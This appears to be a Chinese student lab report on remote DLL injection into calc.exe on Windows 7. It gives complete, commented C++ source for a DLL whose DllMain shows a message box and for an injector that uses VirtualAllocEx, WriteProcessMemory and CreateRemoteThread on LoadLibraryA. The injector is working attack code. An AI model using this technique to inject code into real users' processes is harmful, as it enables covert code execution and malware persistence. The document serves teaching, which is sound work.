

# 第五题第一部分：远程注入

* 此部分为第一部分。远程注入过程。

## 实验要求

* 通过远程注入的方式在调用```calc.exe```时调用一次```MessageBoxA```函数。

* 也即，在运行了计算器的同时，通过远程注入，使计算器调用一次`MessageBoxA`函数。 

## 实验思路

* ```windows.h```中提供了可以进行远程注入的函数，也即在远程进程中创建线程这一功能。

* 对这个注入函数而言，我们需要提供给它的是一个线程函数的地址，同时这个地址也需要能被“远程进程”也即“受害者进程”访问到。因此，这个地址不能写到攻击者的程序里。如果写到攻击者的程序里，远程进程就不能访问到这个地址了。

* 因此我们需要借助```.dll```（动态链接库文件）。在Windows中，许多应用程序不是一个完整的可执行文件，被分割成一些相对独立的动态链接库，而当一个应用程序被执行时，它所对应的dll文件就会被调用。同时需要注意的是，一个dll文件也可以被不同的应用程序使用，这样的dll文件被称为共享dll文件。

* 因此我们的实验思路就变成了：借助一个dll文件，使它在源代码层面就能实现在它被加载的时候，执行什么命令。接下来就是将攻击函数写到dll文件里面，让受害者进程在运行时加载这个dll文件，进而加载了攻击函数，实现攻击函数的攻击内容。

## 实验步骤

#### 具体实验过程概括

* 枚举进程，进而得到```calc.exe```所对应的PID
    * 根据PID获取进程句柄
    * 在进程中分配空间
    * 将函数参数（即```C:\\MyDll.dll```）写到刚分配好的空间中
    * 获取```LoadLibraryA```函数的地址。这里需要注意的是，该函数所在的```kernel32.dll```已经在内存中了，所以不需要进行加载直接获取地址就行了。
    * 在目标进程中根据函数地址与函数参数地址创建线程
    * 等待远程线程执行完毕
    * 实验成功

#### 实验说明

* 实验是涉及到的所有```exe```和```dll```文件版本需要统一。（32位64位的问题）

####  实验环境

* Window 7
* VS2019

#### 1.生成一个MyDll.dll文件


> 打开vs2019，新建一个windows桌面向导工程。


> 名字设为MyDll,选择动态链接库(.dll)，并选择空项目，

添加源文件，命名为[MyDll.cpp](MyDll.cpp)。并将以下代码写入文件中。

```bash
BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered)
{
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		MessageBoxA(NULL, "Hello!", "Hello!", NULL);
		break;
	}
	return TRUE;
}

# DllMain是在Windows系统里注册的一个回调函数（call back）
# DllMain是Dll的缺省入口函数，它负责Dll装载时的初始化及卸载的收尾工作，每当一个新的进程或者该进程的新的线程访问DLL或访问DLL的每一个进程或线程不再使用DLL时，都会调用DLLMain。
# DLL_PROCESS_ATTACH:每个进程第一次调用DLL文件被映射到进程的地址空间时，传递的fdwReason参数为DLL_PROCESS_ATTACH。这进程再次调用操作系统只会增加DLL的使用次数。 
```

将工程保存，并生成该项目，注意只生成不执行，只生成的时候是不会有警告的。然后在工程目录下找到`Debug`文件夹下的`MyDll.dll`文件。将它放到一个易于找到的目录下。

#### 2.生成inject.exe文件

再次打开`vs2019`，再次新建一个`windows桌面向导`，项目名称设为`inject`。


> 选择控制台应用程序(.exe)，并选择空项目。


> 在项目属性中选择常规，将字符集改为多字节字符集。

添加源文件，命名为[inject.cpp](inject.cpp)。并将以下代码写入文件中。

```bash
int main() {
	char szDllName[] = "C:\\MyDll.dll";

	/* Step 1 */
    # PROCESSENTRY32是一个用来存放快照进程信息的结构体。
	PROCESSENTRY32 ProcessEntry = {};
    # 该结构体的dwSize是结构的大小，以字节为单位。
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
    # 以下两行是给系统内的所有进程拍一个快照。固定的模式。
    # CreateToolhelp32Snapshot是获得当前运行进程的快照。
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    # process32First是一个进程获取函数，可以获得第一个进程的句柄。句柄存到bRet中。
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
    # 初始化dwProcessID，用于存放进程id。
	DWORD dwProcessId = 0;
    # 当获取到第一个进程的bRet后，不断遍历，直到获取到calc.exe的句柄。
	while (bRet) {
		# 与calc.exe对比。strcmp函数用于对比两个字符串。ProcessEntry.szExeFile是一个数据，为进程的全名。
        if (strcmp("calc.exe", ProcessEntry.szExeFile) == 0) 
        {
            # 若该bRet就是calc.exe进程的句柄，就跳出循环。
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
        # 若不是，就继续下一个进程，继续对比。
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
    # 若遍历完也没有找到calc.exe进程
	if (0 == dwProcessId) {
		printf("找不到进程\n");
		return 1;
	}

	/* Step 2 */
    # OpenProcess函数用于打开一个已存在的进程对象，并返回进程的句柄。
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
    # 若hProcess没有相对应的进程
	if (0 == hProcess) {
		printf("无法打开进程\n");
		return 1;
	}

	/* Step 3 */
    # 获取dll文件的大小。
	size_t length = strlen(szDllName) + 1;
    # VirtualAllocEx函数的作用是在指定进程的虚拟空间保留或提交内存区域。也即留出dll文件的大小。
	char* pszDllFile = (char*)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
    # 若失败
	if (0 == pszDllFile) {
		printf("远程空间分配失败\n");
		return 1;
	}

	/* Step 4 */
    # WriteProcessMemory函数可以写入某一进程的内存区域。
    # hProcess是由OpenProcess返回的进程句柄。
    # pszDllFile是要写的内存首地址。
    # szDllName指向要写的数据指针。
    # length是写入的字符数。
    # 返回值，非零证明成功。同时可以使用GetLastError获取更多的错误详细信息。
    if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		printf("远程空间写入失败\n");
		return 1;
	}

	/* Step 5 */
    # GetProcAddress函数是用与检索指定的动态链接库(DLL)中的输出库函数地址。两个参数是dll模块句柄和函数名。
    # GetModuleHandle函数是获取一个应用程序或动态链接库的模块句柄。
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		printf("LoadLibraryA函数地址获取失败\n");
		return 1;
	}

	/* Step 6 */
    # CreateRemoteThread函数用于创建一个在其他进程地址空间运行的线程，也就是创建远程线程。本次实验的关键函数。
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		printf("远程线程创建失败\n");
		return 1;
	}

	/* Step 7 */
    # WaitForSingleObject函数可以实现某一线程完成了再继续做其他事情的功能。
    # 两个参数一个是hHandle事件信号状态，还有一个是等待时间。
    # 在某一线程中调用该函数时，线程暂时挂起，如果在挂起的dwMilliseconds毫秒内，线程所等待的对象变为有信号状态，则该函数立即返回；如果超时时间已经到达dwMilliseconds毫秒，但hHandle所指向的对象还没有变成有信号状态，函数照样返回。
	WaitForSingleObject(hThread, INFINITE);
	printf("远程线程执行完毕!\n");

    # VirtualFreeEx函数是目标进程的句柄，可以在其他进程中释放申请的虚拟空间。
    VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
    # CloseHandle可用于关闭一个内核对象，其中包括文件、文件映射、进程、线程等等。
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}
```

保存，生成，调试。在文件夹中找到`inject.exe`文件。放到一个易于找到的文件夹中。

## 实验结果

* `win+R`打开命令行。

* 先运行32位的计算器。
```bash
C:\Windows\SysWoW64\calc.exe
```

* 再运行`inject.exe`。
```
C:\inject.exe
```

## 实验录屏展示


[MP4格式](5-1录屏.mp4)


## 实验问题集锦

* `virtualbox`安装`win7`虚拟机。
	* 使用镜像安装。安装增强功能。挂载共享文件夹。打开`windows update`，检查更新，安装`service pack`。若安装成功`控制面板-系统和安全-系统-windows版本`会显示，如下图所示。

	

	

* 安装`vs`需要安装`.Net Framework`。到`Microsoft`官网下载安装。注意下载dev pack版本。

	* [下载地址](https://dotnet.microsoft.com/download)

	

	


* 安装`vs`出现以下错误：
	```bash
	找不到与以下参数匹配的产品:
	channelId: VisualStudio.15.Release 
	productId: Microsoft.VisualStudio.Product.Community
	```
	* 显示`win7`的隐藏文件夹，找到`C:\ProgramData\Microsoft\VisualStudio\Packages`删除该文件夹。
	* 命令行运行`C:\Program Files (x86)\Microsoft Visual Studio\Installer\resources\app\layout\InstallCleanup.exe`

